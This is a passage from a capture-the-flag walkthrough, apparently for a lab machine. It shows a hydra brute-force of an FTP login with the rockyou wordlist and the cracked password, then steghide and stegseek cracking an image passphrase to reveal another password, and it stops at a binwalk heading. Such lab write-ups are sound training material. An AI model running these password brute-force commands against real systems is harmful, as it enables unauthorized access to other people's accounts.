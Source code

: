 
## Gaining access

### hydra

`$ hydra TARGET_IP -l chris -P /usr/share/wordlists/rockyou.txt ftp`

`[21][ftp] host: TARGET_IP   login: chris   password: crystal`


### FTP

```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

`$ steghide extract -sf cute-alien.jpg` It asks for a password. 

### Stegseek
https://github.com/RickdeJager/stegseek

`stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt`
```
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[
i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
### binwalk
